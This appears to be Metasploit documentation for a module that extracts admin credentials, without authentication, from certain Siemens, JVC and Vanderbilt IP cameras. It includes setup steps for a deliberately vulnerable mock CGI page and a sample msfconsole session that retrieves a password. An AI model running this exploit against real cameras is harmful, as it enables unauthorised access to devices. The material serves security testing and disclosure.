 ## Description

  SIEMENS IP-Camera (CVMS2025-IR + CCMS2025), JVC IP-Camera (VN-T216VPRU),
  and Vanderbilt IP-Camera (CCPW3025-IR + CVMW3025-IR)
  allow an unauthenticated user to disclose the username & password by
  requesting the javascript page 'readfile.cgi?query=ADMINID'.
  Siemens firmwares affected: x.2.2.1798, CxMS2025_V2458_SP1, x.2.2.1798, x.2.2.1235

## Vulnerable Application

This module has been verified against the mock vulnerable page listed below.

### Mock Vulnerable Page

These instructions will create a cgi environment and a vulnerable perl application for exploitation.
Kali rolling (2019.1) was utilized for this tutorial, with apache.

#### Setup

1. Enable cgi: `a2enmod cgid`
2. `mkdir /var/www/html/cgi-bin`
3. Enable folder for cgi execution: add `ScriptAlias "/cgi-bin/" "/var/www/html/cgi-bin/"` to `/etc/apache2/sites-enabled/000-default.conf ` inside of the `VirtualHost` tags
4. Create the vulnerable page by writing the following text to `/var/www/html/cgi-bin/readfile.cgi`:

```
#!/usr/bin/perl
use CGI qw(:standard);
$query = new CGI;
print $query->header( -type=> "text/javascript"),
$query->import_names( 'Q' );
my $data = <<'DATA';
var pw_enflag = "1";
var pw_adminpw = "12345";
var pw_retype1 = "12345";
var pw_userpw = "56789";
var pw_retype2 = "56789";
var pw_autolock = "0";
DATA
if ($Q::page == 2) {
  print $data;
}
```

## Verification Steps

1. Start msfconsole
2. ```use auxiliary/gather/ipcamera_password_disclosure```
3. ```set rhosts [rhosts]```
4. ```run```

## Scenarios

### Against the Mock page listed above

  ```
  msf5 > use auxiliary/gather/ipcamera_password_disclosure 
  msf5 auxiliary(gather/ipcamera_password_disclosure) > set rhosts 127.0.0.1
  rhosts => 127.0.0.1
  msf5 auxiliary(gather/ipcamera_password_disclosure) > run
  
  [+] Found: admin:password
  [*] Scanned 1 of 1 hosts (100% complete)
  [*] Auxiliary module execution completed
  ```
